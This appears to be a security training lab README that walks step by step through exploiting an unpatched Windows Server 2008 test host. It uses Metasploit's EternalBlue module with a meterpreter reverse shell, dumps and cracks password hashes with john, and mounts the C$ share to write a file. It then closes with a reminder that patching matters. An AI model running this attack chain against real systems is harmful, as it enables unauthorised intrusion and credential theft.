 # RSSC2018 Endpoint Attack Lab

## Prerequisites

In order to execute this lab, there are a few things you will need to get started.
1. Installation of Windows Server 2008 as an attack target, either running on a VM or a separate machine, with the following requirements:
   * Fresh, unpatched install
   * Firewall disabled
   * SMBv1 enabled (enabled by default, so if you have not specifically disabled it then you don't need to change anything here)
   * The Administrator password should be set to something simple to make the demonstration of password cracking easier. In our example, we'll use `Drowssap1` as our password.
2. Kali Linux installed to attack the target host from
3. Both machines should be connected to the same network
4. For this lab we're going to use the IP 192.168.100.10 for the Windows attack host and 192.168.100.11 for the Kali console. Replace these IPs in the instructions with your own if using different ones.

## Attack Execution

Here we will walk through the process of attacking and gaining access to the unpatched Windows Server 2008 instance.

1. On your Kali installation, open 2 terminals. For now, we will work in Terminal 1.
2. We need to discover the host and determine what services are available on the machine so we can begin looking for weaknesses. nmap is a tool that helps us do this.

```bash
nmap -T4 -sSVC 192.168.100.10 -p 80,443,445
```

   These parameters do the following:  

   * -T4 sets the timing template to aggressive to make the scan happen more quickly
   * -sSVC specifies that nmap should use the SYN scan technique, should probe open ports to determine information about the service that opened the port, and sets the scripts nmap should use to default
   * -p specifies which ports to scan once host discovery is complete. In this scenario, we'll be scanning the commonly used web ports 80 and 443, as well as the SMB share port 445.

   More information on the commands used, or other information about nmap can be found by running `man nmap`.  

   This should return information about the SMB service on 445, so now we've determined that SMB may be a good attack point.  

3. We can see from the output that nmap was able to determine from the SMB information that the operating system is Windows Server 2008. We know that this OS, if unpatched, can be vulnerable to the ETERNALBLUE exploit. We'll now run an nmap script to determine if this server is unpatched and vulnerable.

```bash
nmap -p 445 192.168.100.10 --script smb-vuln-ms17-010
```

   * This tells nmap to scan your host on port 445 using the script that determines if it is vulnerable to ETERNALBLUE. It should come back indicating that it is indeed vulnerable.

4. Now that we know the host is vulnerable to ETERNALBLUE, we can run an exploit on it. On Terminal 1, start the metasploit console, which we will use to execute the attack.

```bash
msfconsole
```

5. Once you are at the msfconsole command prompt, select the metasploit module for eternal blue (msfconsole supports tab-complete).

```bash
use exploit/windows/smb/ms17_010_eternalblue
```

6. Review your options for this module.

```bash
show options
```

7. Notice that the RHOST option is required. This is the IP address of the host to be attacked.

```bash
set RHOST 192.168.100.10
```

8. Now we need to set the payload. You can use many kinds of payloads to gain shell access, but in this scenario we'll deploy a meterpreter reverse tcp shell that connects back to our local box. Meterpreter shell allows us to execute a variety of useful functions once we gain access to the target box.

```bash
set payload windows/x64/meterpreter/reverse_tcp
```

9. Now run `show options` again, and notice that the LHOST option is now available and required. This needs to be set to the IP of your local box so the shell knows where to connect back to once it's running on the target host.

```bash
set LHOST 192.168.100.11
```

10. Run the exploit. If it goes well, you should see a WIN! message and have a new meterpreter shell prompt.

```bash
run
```

11. You should now have a meterpreter shell prompt on the target host. You can run `help` at any time to see the commands availalbe to you here. First we'll want to launch a cmd prompt and run some commands to verify you have system access to the correct host.

```bash
shell
whoami
hostname
exit
```

12. Back at the meterpreter shell, now we want to see if we can get a dump of the passwords and then try to crack them. To make this easier, we want to start a logging session so any dumped hashes are already saved for us in a text file. To do this, we need to run the `background` command to bring us back to the msfconsole prompt and start spooling. Run the following commands.

```bash
background
spool /tmp/console.log
```

13. This will start logging all of your commands and output to /tmp/console.log. Now we need to connect back to our meterpreter shell session. To view the list of sessions available, use the `sessions -l` command, followed by `sessions -i <id>` where `<id>` is the ID of the session listed from the output of the `sessions -l` command.

```bash
sessions -l
sessions -i 1
```

14. Back on the meterpreter shell, run `hashdump`. You should see a list of usernames and hashed passwords, which are automatically logged as output to /tmp/console.log. 

15. Background the session again, and turn off spooling so we don't keep outputting unnecessary logs to /tmp/console.log

```bash
background
spool off
```

## Password Cracking

1. Let's switch over to Terminal 2 at this time. Now that we have a copy of the hashed passwords, we want to see if we can crack them. You can view the contents of the log output by running `cat /tmp/console.log`. Notice that there's more information than just the hashed passwords in here from the other commands we've run from our session. To clean this up and get a file that just contains the password hashes, we can `grep` that information out to a new file.

```bash
grep ":::" /tmp/console.log | tee hashedpasswords.txt
```

   * The grep command searches for the string ":::" in the console.log file (which the lines with hashed passwords will have), prints it out to the console and pipes it to the `tee` command, which saves console output to the file `hashedpasswords.txt`.
   
2. Now we can run our password cracking tool to crack the password. There are many cracking tools available, but for this exercise we'll use `john`.

```bash
john --format=nt hashedpasswords.txt
```

   * For more information on the options that can be used with `john` for more complex cracking processes, you can run `john -h` to display the help text.

3. This should now show you that the Administrator password was successfully cracked to be `Drowssap1`. We can confirm that this is correct through a variety of methods, but for our purposes, we'll mount the protected c$ share on the attack box and write a file to it. First, let's list the shares available on the host by running the following command. When prompted, enter the `Drowssap1` password that we cracked earlier.

```bash
smbclient -L hostname -I 192.168.100.10 -U Administrator
```
   * You should see a list of available shares on the host. Let's mount the protected `C$` share by creating a mount point and then mounting the share.

```bash
mkdir -p /mnt/atk_share
mount -t cifs //192.168.100.10/C$ /mnt/atk_share -o username=Administrator,password=Drowssap1
```

   * `mkdir` command creates the full directory specified
   * `mount` command mounts the Windows share to /mnt/atk_share with the username and password specified, and specifies the type as a CIFS share

4. Now we can change directory to the remote share and see if we can write a file on the C:\ directory of the remote host.

```bash
cd /mnt/atk_share
echo "you done been" > pwnd.txt
```

   * This changes directory to the atk_share directory and writes a file to the share called `pwnd.txt` with the contents `you done been`.
   * To confirm, you can run `ls` to see the pwnd.txt file, and if you run `cat pwnd.txt` you should see your contents.
   * You can also log into your Windows host directly and confirm there is a file at C:\pwnd.txt with those contents.
   
## Cleanup

1. Now that we're finished with our exercise, we need to close the existing session on the target. Back on Terminal 1, instruct metasploit to terminate the existing session.

```bash
sessions -K
```

2. You can now exit metasploit by running `exit`.
3. On Terminal 2, you can unmount the Windows share by running `umount /mnt/atk_share`.

# Conclusion

We hope this has been useful in seeing the process of a basic attack on an unpatched Windows host, which should demonstrate how important patching and hardening procedures are to protecting against such easy attack vectors that can be very damaging to your environment.
